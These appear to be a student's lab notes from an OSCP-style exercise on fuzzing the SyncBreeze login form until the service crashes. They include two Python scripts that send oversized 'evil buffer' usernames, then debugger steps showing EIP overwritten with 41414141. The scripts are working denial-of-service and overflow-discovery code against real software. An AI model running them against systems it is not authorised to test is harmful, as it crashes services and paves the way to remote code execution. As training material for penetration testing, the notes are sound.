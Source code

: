 11.1.1.2

# 11.1.1.2
## 11.1.1.2.1. Build the fuzzer and replicate the SyncBreeze crash.
### Start the SyncBreeze service on our Windows 10 client machine from the Services App
![ce56977e64ed823c3a3ea5e2e52df4e0.png](../../../_resources/11a140171edf4b22905b1160fb41000b.png)

### We already know the username field is vulnerable, let's sample the network traffic by launching Wireshark. Filter 'tun0' -> 'host 192.168.214.0'
![b9021acb7ad995ac78b65ea988b40354.png](../../../_resources/060695a6fc4f4220b37f0eb78620b2fa.png)

### Open a browser and log into SyncBreeze with invalid credentials
[http://192.168.214.10/login](http://192.168.214.10/login)
![2c00450b1fa9beb29f666c4efdac0628.png](../../../_resources/82cff510ed3d469f9c00f438b4626552.png)
![53801ebdc048da616b94ec88baf9435d.png](../../../_resources/976ed920578e4a5ba32799da255af9ba.png)

### On Wireshark, follow the TCP stream and look for the POST request to log in.
We are looking for a [FIN, ACK] response from the Windows client. Review the 3-way handshake
![876cdee0ffacfd2826e6ad40195673c8.png](../../../_resources/32604bf07e9c475f88700db6393bb102.png)

### Now replicate this HTTP communication by building a fuzzer script in Python.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 1_proof_of_concept.py 
#!/usr/bin/python
import socket
import sys

try:
    print "\nSending evil buffer..."

    size = 100
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

### Now build a generation-based fuzzer that sends multiple HTTP requests with increasingly longer usernames. Here it is:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 2_fuzzer_username.py 
#!/usr/bin/python
import socket                                                             
import time                                                               
import sys                                                                
                                                                                 
size = 100                                                                       
                                                                                 
while(size < 2000):                                                              
                                                                                 
  try:                                                                                         
    print "\nSending evil buffer with %s bytes..." % size                                      
                                                                                               
    inputBuffer = "A" * size                                                                   
                                                                                               
    content = "username=" + inputBuffer + "&password=A"                                        
                                                                                               
    buffer = "POST /login HTTP/1.1\r\n"                                                        
    buffer += "Host: 192.168.214.10\r\n"                                                       
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"            
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"                                                    
    buffer += "Accept-Encoding: gzip, deflate\r\n"                                                     
    buffer += "Referer: http://192.168.214.10/login\r\n"                                                 
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"                                      
    buffer += "Content-Length: "+str(len(content))+"\r\n"                                                
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()

    size += 100
    time.sleep(10)

    print "Done!"

  except:
    print "Could not connect!"
    sys.exit()
```

### Start or restart SyncBreeze
![ea32fe6de792f084abdad5adffbed754.png](../../../_resources/2db2634d39ac443c99c8f87230e05d03.png)

### Check what port it's listening on with TCP Viewer
![0cf0b98dfd333939996e27882d900840.png](../../../_resources/47f9f3e677954c53b7d21600c3069d71.png)

### Look for syncbrs.exe PID. In this example, the PID is 3884
![60553221c01aeeb2dc103032978ac054.png](../../../_resources/7bc96ffc352741c2bc4488b67da45fdf.png)

### Right-click the Immunity Debuuger Icon -> Run as administrator
![cbbc567f412614de3492fb1a79758d23.png](../../../_resources/3159f6620b594c71bd1df31af8bd0ecb.png)

### The Immunity Debugger Launches. Attach by pressing File -> Attach
![5fa87b2172578b5c398e9f2ec588fc2a.png](../../../_resources/82f38cc3c28a47f4b9f7e136bdd12254.png)

### Select the syncbreeze process. In this example, click on PID, then press Attach.
![1a52168fc6521b17b18f8b9e178d9742.png](../../../_resources/bbb83c9f9e5c47ae8542667de7852496.png)

### We see the Syncbreeze service is attached but Paused.
![b63cf94ce1579459225f0af53d8dca97.png](../../../_resources/92a4594f8c934e3babe97e56a104307d.png)

### Press F9 to unpause.
![cbcaab8f7fd54f660eb96af4960fd7d0.png](../../../_resources/ca32983b4d854ed9b5fdae3c035e473a.png)

### Run the generational-based fuzzer script. The script hangs once 900 bytes is reached.
![a49b300061046dc1a23257a7b5dcccbf.png](../../../_resources/1bb72a454aa742468d34aec3be56f0b1.png)

### We see that SyncBreeze has crashed, with EIP 41414141 and the debugger has paused
![ddac99473e82070f07334576c0bd99fb.png](../../../_resources/c964ab30d58547dba7e9fd8d77295833.png)

### This error message also pops up
![fd3460e4a6d873ac906a961e9792a63c.png](../../../_resources/51258d58524f4c16aa35e4b395ed303b.png)


## 11.1.1.2.2. Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?

Yes, the ESP has 12 bytes written to it at a higher numbered address on the stack. It seems to be overrun with our command line argument of A's.